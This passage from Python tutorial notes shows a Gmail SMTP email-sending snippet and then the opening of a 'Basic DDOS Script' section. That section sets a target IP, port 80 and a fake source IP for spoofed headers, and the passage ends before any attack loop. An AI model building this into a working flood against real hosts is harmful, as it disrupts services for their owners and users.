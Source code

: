 ```python
try:
    # Instantiate SMTP connection to the Gmail server using SSL on port 465
    server = smtplib.SMTP_SSL('smtp.gmail.com',465)
    # Identify client to server
    server.ehlo()
    # Login
    server.login(gmail_address, gmail_password)
    # Send Email
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    # Close Server
    server.quit()
    print("Email Sent!")
except:
    print("Unable to connect")
```



**Additional Resources**

* Create an Email Using Markdown: [GitHub Gist](https://gist.github.com/cleverdevil/8250082)






## Basic DDOS Script

* Distributed Denial of Service

* ***Highly illegal when you do not have permission!!!***

* Python is not the ideal language for a real DDOS attack as it does not support true multithreading

* Rough script, not optimized



**Import Dependencies**

* [**socket:**](https://docs.python.org/3/library/socket.html) low-level networking interface
* [**threading:**](https://docs.python.org/3/library/threading.html) thread-based parrallelism

```python
import socket
import threading
```



**Set Target Information**

```python
# Target IP Address to attack
target = '192.168.1.1'
# Send traffic to HTTP port
port = 80
# Fake ip address for header
fake_ip = '192.168.1.123'
```
